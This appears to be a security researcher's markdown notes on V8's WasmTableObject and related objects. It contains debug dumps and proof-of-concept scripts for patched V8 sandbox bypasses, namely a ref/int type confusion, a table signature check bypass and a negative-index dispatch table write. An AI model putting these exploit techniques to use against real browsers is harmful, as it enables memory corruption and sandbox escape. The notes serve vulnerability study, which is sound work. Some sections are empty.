


# WasmTableObject

This document provides detailed information about `WasmTableObject`, including its structure, usage, and examples of previous issues and their patched solutions.

## Table of Contents

<!-- toc -->

- [Overview](#overview)
  * [WasmTableObject](#wasmtableobject)
  * [WasmDispatchTableObject](#wasmdispatchtableobject)
  * [WasmModuleObject](#wasmmoduleobject)
  * [WasmInstanceObject](#wasminstanceobject)
  * [Summary](#summary)
- [Structure of WasmTableObject](#structure-of-wasmtableobject)
- [Usage Examples](#usage-examples)
  * [Example 1: Setting Function Types](#example-1-setting-function-types)
  * [Example 2: Changing Table Types](#example-2-changing-table-types)
  * [Example 3: Changing uses fields](#example-3-changing-uses-fields)
- [Previous Issues and Solutions](#previous-issues-and-solutions)
- [Issue 1: Wasm Ref Int parameter type confusion](#issue-1--wasm-ref--int-parameter-type-confusion)
  * [Issue 2: Import signature check bypass](#issue-2-import-signature-check-bypass)
  * [Issue 2: Bypassing Checks in WasmDispatchTable](#issue-2-bypassing-checks-in-wasmdispatchtable)
  * [Issue 3: Out-of-Bound Access in WebAssembly](#issue-3-out-of-bound-access-in-webassembly)
- [Conclusion](#conclusion)

<!-- tocstop -->

## Overview

### WasmTableObject
The `WasmTableObject` is a fundamental component in WebAssembly for managing function tables. It allows dynamic linking of functions, enabling more flexible and powerful module interactions.
```js
DebugPrint: 0x1f850006a685: [WasmTableObject]
 - map: 0x1f850028f1f5 <Map[40](HOLEY_ELEMENTS)>
 - properties_or_hash: 0x1f8500000725 <FixedArray[0]>
 - elements: 0x1f8500000725 <FixedArray[0]>
 - entries: 0x1f850006a679 <FixedArray[1]>
 - current_length: 1
 - maximum_length: 10
 - uses: 0x1f850006bccd <FixedArray[2]>
 - raw_type: 41
 - is_table64: 0
```

There are some object related to table as WasmDispatchTableObject, WasmModuleObject, and WasmInstanceObject.

### WasmDispatchTableObject

- `WasmDispatchTableObject`: While the `WasmTableObject` is designed for dynamic linking of wasm functions by managing an array of callable function references, the `WasmDispatchTableObject` is more tightly integrated with the low-level runtime machanics of wasm module execution

```js
0x371c000454ad: [WasmDispatchTable]
 - map: 0x258200001f7d <Map(WASM_DISPATCH_TABLE_TYPE)>
 - length: 1
 - capacity: 1
        0: sig: 5; target: 0x1261f0b32000; ref: 0x371c000453d9 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
```

### WasmModuleObject

- `WasmModuleObject` is another core component in wasm implementation, representing a compiled wasm module. It serves as a higher-level abstraction for wasm modules and is central to the lifecycle of wasm programs, from compilation to instantiation and execution.  
```js
0x25820006a569: [WasmModuleObject]
 - map: 0x25820028efe5 <Map[20](HOLEY_ELEMENTS)>
 - module: 0x55555566c6e8
 - native module: 0x55555565ad70
 - script: 0x2582002b046d <Script>
```

### WasmInstanceObject

- `WasmInstanceObject` represents a **specific instance** of a wasm module. It is created from a `WasmModuleObject` and serves as the runtime representation that provides access to the module's memory, tables, and exported functions. Each instance is tied to a specific execution enviroment, making it a fundamental building block for executing wasm code. 

```js
0x2582002b0941: [WasmInstanceObject] in OldSpace
 - map: 0x25820028f10d <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x25820028f1b9 <Object map = 0x2582002b04f9>
 - elements: 0x258200000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - trusted_data: 0x371c000453d9 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - module_object: 0x25820006a569 <Module map = 0x25820028efe5>
 - shared_part: 0x2582002b0941 <Instance map = 0x25820028f10d>
 - exports_object: 0x25820006bc4d <Object map = 0x2582002b0aa1>
 - properties: 0x258200000725 <FixedArray[0]>
 - All own properties (excluding elements): {}
```

### Summary

This graph illustrates their relationships and how they are connected to one another:



More details can be accessed by [drawio link](https://drive.google.com/file/d/1Tsl3Y3N8Q44aGTtzYal-0feheGndq18V/view)

## Structure of WasmTableObject
The `WasmTableObject` consists of several internal fields, including:
- `entries`: An array of function references.
- `type`: The type signature of the functions stored in the table.
- `length`: The current number of elements in the table.

## Usage Examples
Here are some examples of how `WasmTableObject` can be used:

### Example 1: Setting Function Types
```javascript
let table1 = new WebAssembly.Table({ element: 'anyfunc', initial: 1 });
table1.set(0, new WebAssembly.Function(
  { parameters: [], results: ['i64'] },
  () => BigInt(Sandbox.targetPage)
));
```

### Example 2: Changing Table Types
```javascript
let t0 = getPtr(table0);
let t1 = getPtr(table1);
let t0_type = getField(t0, kWasmTableObjectTypeOffset);
setField(t1, kWasmTableObjectTypeOffset, t0_type);
```

### Example 3: Changing uses fields

- `uses` field associated with particular instance. Like table A can be used by 2 or more than 3 instances, and all of them are listed in `uses` FixedArray type.

- Example:
```js
let t0 = getPtr(table0);
let t1 = getPtr(table1);
let uses_t0 = getField(t0, 0x18);
let uses_t1 = getField(t1, 0x18);
setField(t0, 0x18, uses_t1); // table uses
```

**Failure**: 


## Previous Issues and Solutions

## Issue 1:  Wasm Ref <-> Int parameter type confusion

- Issue: https://issuetracker.google.com/issues/336507783
- Reported date: **Apr 23, 2024**

**Description** this issue relates to `WasmExportFunction` that is JS->Wasm calls, where in-heap corruption can lead to a mismatch between the signature used by the `JSToWasm` wrapper and the actual Wasm code.

**Solution**


PoC:
```js

d8.file.execute('test/mjsunit/wasm/wasm-module-builder.js');

const builder = new WasmModuleBuilder();

let $box = builder.addStruct([makeField(kWasmFuncRef, true)]);
let $struct = builder.addStruct([makeField(kWasmI32, true)]);

let $sig_i_l = builder.addType(kSig_i_l);
builder.addFunction("func0", makeSig([wasmRefType($struct)], [])).exportFunc().addBody([
  kExprLocalGet, 0,
  ...wasmI32Const(0x41414141),
  kGCPrefix, kExprStructSet, $struct, 0
]);
builder.addFunction("func1", $sig_i_l).exportFunc().addBody([
  kExprLocalGet, 0,
  kExprI32ConvertI64,
]);
builder.addFunction("get_func0", kSig_r_v).exportFunc().addBody([
  kExprRefFunc, 0,
  kGCPrefix, kExprStructNew, $box,
  kGCPrefix, kExprExternConvertAny,
]);
builder.addFunction("get_func1", kSig_r_v).exportFunc().addBody([
  kExprRefFunc, 1,
  kGCPrefix, kExprStructNew, $box,
  kGCPrefix, kExprExternConvertAny,
]);
builder.addFunction("boom", kSig_i_l).exportFunc().addBody([
  kExprLocalGet, 0,
  kExprRefFunc, 1,
  kExprCallRef, $sig_i_l,
])

let instance = builder.instantiate();

const kHeapObjectTag = 1;
const kStructField0Offset = 8;  // 0:map, 4:hash
const kWasmInternalFunctionOffset = 4;

let memory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

function getPtr(obj) {
  return Sandbox.getAddressOf(obj) + kHeapObjectTag;
}
function getField(obj, offset) {
  return memory.getUint32(obj + offset - kHeapObjectTag, true);
}
function setField(obj, offset, value) {
  memory.setUint32(obj + offset - kHeapObjectTag, value, true);
}

let target = BigInt(Sandbox.targetPage - (kStructField0Offset - kHeapObjectTag));

let f0_box = getPtr(instance.exports.get_func0());
let f0 = getField(f0_box, kStructField0Offset);
let f0_int = getField(f0, kWasmInternalFunctionOffset);

let f1_box = getPtr(instance.exports.get_func1());
let f1 = getField(f1_box, kStructField0Offset);

setField(f1, kWasmInternalFunctionOffset, f0_int);

instance.exports.boom(target);
```


### Issue 2: Import signature check bypass

- Issue: https://issuetracker.google.com/issues/348793147
- Reported date: **Jun 23, 2024**

**Description:** `raw_type` of WasmTableObject can be modified and then passes it as an imported table. 

**Solution** Implement sandbox verification to check function signatures `FunctionSigMatchesTable` each time they are set for a dispatch table entry. 
```c++
    SBXCHECK(FunctionSigMatchesTable(sig_index, trusted_instance_data->module(),
                                     table_index));
```

+ When adding `WasmExportedFunction`, the program invokes the `InstanceBuilder::InitializeImportedIndirectFunctionTable` function, retrives the module's `canonical_sig_index`, and directly passes it to set the entry of the `dispatch_table` [2].

```c++
bool InstanceBuilder::InitializeImportedIndirectFunctionTable(
    DirectHandle<WasmTrustedInstanceData> trusted_instance_data,
    int table_index, int import_index,
    DirectHandle<WasmTableObject> table_object) {
  int imported_table_size = table_object->current_length();
  // Allocate a new dispatch table.

  printf("\033[1;31mInstanceBuilder::InitializeImportedIndirectFunctionTable 1\033[0m\n");

  WasmTrustedInstanceData::EnsureMinimumDispatchTableSize(
      isolate_, trusted_instance_data, table_index, imported_table_size);
  // Initialize the dispatch table with the (foreign) JS functions
  // that are already in the table.
  for (int i = 0; i < imported_table_size; ++i) {
    bool is_valid;
    bool is_null;
    MaybeHandle<WasmTrustedInstanceData> maybe_target_instance_data;
    int function_index;
    MaybeDirectHandle<WasmJSFunction> maybe_js_function;
    WasmTableObject::GetFunctionTableEntry(
        isolate_, module_, table_object, i, &is_valid, &is_null,
        &maybe_target_instance_data, &function_index, &maybe_js_function);
    if (!is_valid) {
      thrower_->LinkError("table import %d[%d] is not a wasm function",
                          import_index, i);
      return false;
    }
    if (is_null) continue;
    DirectHandle<WasmJSFunction> js_function;
    if (maybe_js_function.ToHandle(&js_function)) {
      WasmTrustedInstanceData::ImportWasmJSFunctionIntoTable(
          isolate_, trusted_instance_data, table_index, i, js_function);
      continue;
    }
  //...

    uint32_t canonical_sig_index =
        target_module->isorecursive_canonical_type_ids[function.sig_index];//[1]

    printf("\033[1;31mInstanceBuilder::InitializeImportedIndirectFunctionTable adds trusted_instance_data->dispatch_table\033[0m\n");
    trusted_instance_data->dispatch_table(table_index)
        ->Set(i, *ref, entry.call_target(), canonical_sig_index);//[2]
  }
  return true;
```

Example:

```js

table1.set(0, instance0.exports.placeholder);

const kWasmTableObjectTypeOffset = 28;
let t0 = getPtr(table0);
let t1 = getPtr(table1);
let t0_type = getField(t0, kWasmTableObjectTypeOffset);
let expected_old_type = (($sig1 << kHeapTypeShift) | kRef) << kSmiTagSize;
setField(t1, kWasmTableObjectTypeOffset, t0_type);

// Instantiation accepts the table due to its corrupted type.
let instance1 = builder.instantiate({'import': {'table': table1}});
```

+ When adding `WasmJSFunction` [1], the function doesn't verify whether the dispatch table's signature matches the `call_target`.
```c++
// static
void WasmTrustedInstanceData::ImportWasmJSFunctionIntoTable(
    Isolate* isolate,
    DirectHandle<WasmTrustedInstanceData> trusted_instance_data,
    int table_index, int entry_index,
    DirectHandle<WasmJSFunction> js_function) {
      printf("\033[1;31mWasmTrustedInstanceData::ImportWasmJSFunctionIntoTable\033[0m\n");
  // Deserialize the signature encapsulated with the {WasmJSFunction}.
  // Note that {SignatureMap::Find} may return {-1} if the signature is
  // not found; it will simply never match any check.
  Zone zone(isolate->allocator(), ZONE_NAME);
  const wasm::FunctionSig* sig = js_function->GetSignature(&zone);
  // Get the function's canonical signature index. Note that the function's
  // signature may not be present in the importing module.
  uint32_t canonical_sig_index =
      wasm::GetTypeCanonicalizer()->AddRecursiveGroup(sig);

  //...
  // Update the dispatch table.
  int sig_id = static_cast<int>(
      std::distance(module_canonical_ids.begin(), sig_in_module));
  DirectHandle<WasmApiFunctionRef> ref =
      isolate->factory()->NewWasmApiFunctionRef(
          callable, suspend, trusted_instance_data,
          wasm::SerializedSignatureHelper::SerializeSignature(
              isolate, module->signature(sig_id)));

  WasmApiFunctionRef::SetIndexInTableAsCallOrigin(ref, entry_index);
  trusted_instance_data->dispatch_table(table_index)
      ->Set(entry_index, *ref, call_target, canonical_sig_index); // [1]
```

Performing on PoC script:
```js

// Put a WasmJSFunction into table1 while it still has type $sig1.
table1.set(0, new WebAssembly.Function(
  {parameters: [], results: ['i64']},
  () => BigInt(Sandbox.targetPage)));

// // Now set table1's type to $sig0.
const kWasmTableObjectTypeOffset = 28;
let t0 = getPtr(table0);
let t1 = getPtr(table1);
let t0_type = getField(t0, kWasmTableObjectTypeOffset);
let expected_old_type = (($sig1 << kHeapTypeShift) | kRef) << kSmiTagSize;
setField(t1, kWasmTableObjectTypeOffset, t0_type);// overwrites signature kSig_v_l by kSig_v_s

// // Instantiation accepts the table due to its corrupted type.
let instance1 = builder.instantiate({'import': {'table': table1}}); // adding table -> InstanceBuilder::InitializeImportedIndirectFunctionTable
```

**Solution:** Implement strict type checks and validation during table manipulation.


### Issue 2: Bypassing Checks in WasmDispatchTable

- Issue: https://issuetracker.google.com/issues/349502157
- Reported date: **Jun 26, 2024**

**Description:** Using negative numbers to bypass `SBXCHECK_LT` in `WasmDispatchTable::Set` function.

**Solution:** Ensure that index and length checks are robust and cannot be bypassed using negative values.

PoC:
```js
setField(getPtr(table_v_ls), 0x10, 0xfffffffe); // table->current_length = (smi)-1
setField(getPtr(table_v_ls), 0x14, 0xfffffffe); // table->current_length = (smi)-1

// call table set
// check bypassed, write @ index -7 -> writes exactly into table_v_ll dispatch table!
table_v_ls.set(0xfffffff9, writer);

boom(BigInt(Sandbox.targetPage) - 0x7n, 0xdeadbeefcafebaben);
```

### Issue 3: Out-of-Bound Access in WebAssembly
**Description:** Exploiting WebAssembly's global variables to achieve out-of-bound read/write access.

**Solution:** Implement more stringent bounds checking and memory protection mechanisms.


## Conclusion
The `WasmTableObject` is a crucial element in WebAssembly, providing dynamic function management capabilities. Addressing the outlined issues and implementing the proposed solutions can enhance the security and reliability of WebAssembly applications.

